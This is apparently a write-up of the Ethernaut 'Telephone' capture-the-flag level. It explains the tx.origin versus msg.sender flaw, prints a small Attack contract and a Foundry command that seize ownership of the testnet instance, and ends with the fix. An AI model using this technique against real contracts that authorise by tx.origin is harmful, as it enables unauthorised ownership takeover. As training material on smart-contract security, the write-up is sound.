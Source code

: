 # Ethernaut 4 - Telephone

## Challenge Overview

The Telephone challenge demonstrates a critical vulnerability related to the difference between `tx.origin` and `msg.sender` in Ethereum smart contracts.

## Vulnerability Analysis

The vulnerable contract has a `changeOwner` function that checks:

```javascript
if (tx.origin != msg.sender) {
  owner = _owner;
}
```

### The Problem

- `tx.origin`: The address that initiated the transaction (the EOA that signed the transaction)
- `msg.sender`: The address that called the current function (could be a contract or EOA)

When a user calls a contract directly, `tx.origin == msg.sender`. However, when a contract calls another contract, `tx.origin` remains the original user, but `msg.sender` becomes the calling contract's address.

## Solution Strategy

We exploit this by creating an intermediary contract (`Attack.sol`) that calls the `changeOwner` function. This way:

- `tx.origin` = our EOA address
- `msg.sender` = the Attack contract address
- Since `tx.origin != msg.sender`, the condition passes and we become the owner

## Files Structure

- `src/Telephone.sol` - The vulnerable contract
- `src/Attack.sol` - Our exploit contract
- `script/Solve.s.sol` - Foundry script to execute the attack

## Attack Contract

```javascript
contract Attack {
    Telephone public telephone;

    constructor(Telephone _telephone){
        telephone = _telephone;
    }

    function steelOwnership() external {
        telephone.changeOwner(msg.sender);
    }
}
```

## Execution

The attack is executed through the Foundry script which:

1. Deploys the Attack contract with the Telephone instance
2. Calls `steelOwnership()` which triggers the vulnerability
3. Successfully changes ownership

## Challenge Parameters On Arbitrum Sepolia

- **Submit level txnHash**: `0xb6b43e648c2d7d05be880cb1888c904d94d6f86056438458a1e2a4801e8d73c1`
- **Instance address**: `0x46f5C472B3F81bA00240Ae0523feDe2eb65D41b9`
- **Level address**: `0xba6F0B5784B6580790584A553f6e4a3483a915c3`

## Key Learning Points

1. **tx.origin vs msg.sender**: Understanding the difference is crucial for secure smart contract development
2. **Never use tx.origin for authorization**: Always use `msg.sender` for access control
3. **Contract-to-contract interactions**: Be aware of how calls through contracts affect these variables

## Prevention

To fix this vulnerability, the contract should use `msg.sender` instead of `tx.origin`:

```javascript
function changeOwner(address _owner) public {
    if (msg.sender == owner) {  // Use msg.sender instead of tx.origin
        owner = _owner;
    }
}
```

## Running the Solution

```zsh
forge script script/Solve.s.sol --rpc-url <RPC_URL> --private-key <PRIVATE_KEY> --sender <MSG_SENDER> --broadcast
```

This challenge demonstrates why `tx.origin` should never be used for authorization in smart contracts, as it can be easily bypassed through contract intermediaries.
